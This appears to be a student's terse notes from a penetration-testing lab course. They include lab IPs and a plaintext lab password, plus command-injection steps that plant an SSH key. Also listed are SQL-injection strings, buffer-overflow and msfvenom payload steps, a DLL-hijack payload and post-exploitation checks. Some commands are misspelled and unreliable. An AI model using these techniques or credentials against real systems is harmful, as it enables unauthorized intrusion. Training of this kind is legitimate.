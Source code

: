 GREYMAN
student@10.50.39.46 9MaGX5PmoRtsLKk
http://10.50.20.250:8000/challenges

linops
10.50.36.67
winops
10.50.26.46
xfreerdp /u:student /v:10.50.26.46 /dynamic-resolution +glyph-cache +clipboard

DRY Run
10.50.34.92

Phase
1: Mission Definitin
2: recon
3: footprinting
4: Exploit
5: post exp
6: Doc misssoin

exploit-db.com
virustotal


# google hacking
site: marines.mil
site: marines.mil covid 19
site: marines.mil filetype:pdf "covid 19"

 
# Recon 
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done

# Web Exploitation

-command injection
(home box)
  ssh-keygen -t rsa
  cat .ssh/id_rsa.pub
(Target)
  ; whoami
  ; cat /ect/passwd
  ; ls -la /var/www
  ; mkdir /var/www/.ssh
  ; echo "id_rsa.pub" > /var/www/.ssh/authorized_keys
  ; cat /var/www/.ssh/authorized_keys
(home)
  ssh www-data@10.50.31.75

  ls -la /var/www/html
  
# sql

mysql
show databases;
show tables from session;
select * from session.car;
use session;
select * from car;
describe car;
select * from car UNION select tireid,name,size,cost,1,2 FROM Tires;
select id FROM users WHERE name='tom'or 1='1' AND pass='tom' or 1='1'

text Box()
ram' OR 1='1

# Reverse Engineering


url()
category=1 or 1=1
UNION SELECT 1,table_name,3 FROM information_schema.tables

# DEV EXPLOIT
gdb 
wiremask 
look for off set for eip 
gdb pdisass main
env - gdb (file)
show env
unset env
run and crash the program
info proc map
find /b (start of heap), (end of stack), 0xff, 0xef
find jump to eip to jum esp
msfvenom -p linux/x86/exec CMD=ifconfig -b '\x00' -f python

!mona modules
!mona jmp -r esp -m
/.hidden/inventory.exe <<<$(./mybuff.py)

# priv escalation 
procmon
crl L
path containt dll
-p windows/exec CMD='cmd.exe /C "whoami" > C:\ p\whami.txt' -f dll > sspiclr dll

LINUX


dry run
file upload
/etc/host for another box

review
nmap -v -sT -Pn -T4 -sV --script=http-enmu.nse
check for robots.txt
check all pages
--files to look for /dir tranversel
 etc/passwd
 etc/hosts
 etc/group
 etc/network
 etc/resolve.conf
-- Username and password /sql inject
A' OR 1='1
(dev tool network) switch to raw to get post to get
2 types of encode ROT13 and BASE64
-- recon new box
sudo -l
ping sweep
look at cron
find perm
nmap



a' OR 1='1
find / -name hint* 2> /dev/null
